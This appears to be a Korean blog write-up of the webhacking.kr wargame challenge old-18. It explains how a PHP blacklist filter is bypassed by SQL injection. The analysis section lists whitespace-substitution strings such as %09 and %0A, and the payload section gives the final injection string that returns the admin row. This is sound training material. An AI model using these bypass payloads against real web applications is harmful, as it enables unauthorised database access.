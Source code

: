 ```yaml
---
title: ["[Webhacking.kr] old-18 (sqli - 10)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, php, mysql]
---
```

## Intro
![문제 설명](assets/img/writeup/webhacking.kr/old-18/recon.png)

`result[id]`가 `admin`이 되어야 한다.

## Analysis

`preg_match("/ |\/|\(|\)|\||&|select|from|0x/i",$_GET['no'])`  
SQL 인젝션을 방지하기 위한 필터링이다.  
이렇게 SQL 구문이 필터링되어 있으면, 대부분 SQLi 문제라고 보면 된다.  
` `, `/`, `(`, `)`, `|`, `&`, `select`, `from`, `0x`를 필터링하며, 대소문자 구분을 하지 않는다.  

`select id from chall18 where id='guest' and no=$_GET[no]`  
타겟 쿼리는 다음과 같으므로,  
`select id from chall18 where id='guest' and no=2 or no=2`로 쿼리를 바꾸면 된다.  

하지만, ` `(%20)이 필터링 된다.  

[No Space (%20) - bypass using whitespace alternatives](https://book.hacktricks.xyz/pentesting-web/sql-injection)  
```
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

## Payload

` `  대신에 `%09`를 써보자.  

```
/?no=2%09or%09no=2
```